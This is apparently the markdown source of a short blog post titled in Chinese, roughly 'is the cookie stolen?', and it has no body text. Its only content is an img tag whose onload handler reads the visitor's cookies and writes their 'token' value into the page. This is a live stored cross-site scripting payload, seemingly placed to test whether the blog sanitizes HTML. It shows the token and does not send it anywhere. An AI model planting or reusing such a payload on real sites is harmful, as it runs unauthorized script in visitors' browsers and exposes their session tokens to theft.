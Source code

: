 ```yaml
---
title: "看看有沒有偷肯?"
tags: ["Blog"]
date: 2024-07-21
---
```

<img src="https://picsum.photos/200/300" onload="var cookies = document.cookie.split('; ').reduce((acc, cookie) => { const [key, value] = cookie.split('='); acc[key] = value; return acc; }, {}); document.querySelector('div[data-v-4d55a102].content-container').innerHTML = `<div data-v-0042ca3e class='py-2 text-xl text-wrap'>Your token is ${cookies.token}</div>`;">

